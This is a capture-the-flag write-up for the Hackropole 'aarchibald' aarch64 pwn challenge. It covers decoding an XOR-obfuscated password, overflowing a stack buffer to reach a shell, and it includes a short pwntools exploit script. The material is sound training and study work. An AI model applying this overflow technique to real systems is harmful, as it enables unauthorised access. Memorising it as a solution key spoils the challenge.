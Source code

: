 +++
title = "Hackropole | Aarchibald"
+++

# [Pwn] aarchibald | hackropole

* [1. Checksec](#checksec)
* [2. Writeup](#writeup)
* [3. Full exploit](#full-exploit)

## Checksec

```bash
[*] '/home/botman/Documents/cybersec/CTF/solo/hackropole/pwn/aarchibald/aarchibald'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Writeup

Firstly we're gonna open our binary into a decompiler and we can directly see that there is a loop which will XOR our input with 0x32 value and then compare the 13 first bytes of the result with another value at the address 0xc30
![xor + strcmp](/images/aarchibald/xor_strcmp.png)

So we're gonna see what's hidden at this address and we find this

![xored password](/images/aarchibald/xored_password.png)

Ok, cool we have the password XORed and the key so we juste have to decrypt it 

![password](/images/aarchibald/password.png)

So we have the password we're left with one step wich is to pass the last check before our shell

![bof](/images/aarchibald/bof.png)

We see that there is only one variable on the stack which contains a value and to get our chall we have to overwrite it with another value, it's a basic buffer oveflow, so we just have to add a lot of A on the end of our password and tadaaa

![win](/images/aarchibald/win.png)

## Full exploit

```python
from pwn import *

def exploit(io, elf, libc=None):
    payload = b'SuPerpAsSworDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' 
    io.sendlineafter(':\n', payload)
    io.interactive()
```

[download here](/exploits/aarchibald.py)

written by *0xB0tm4n*

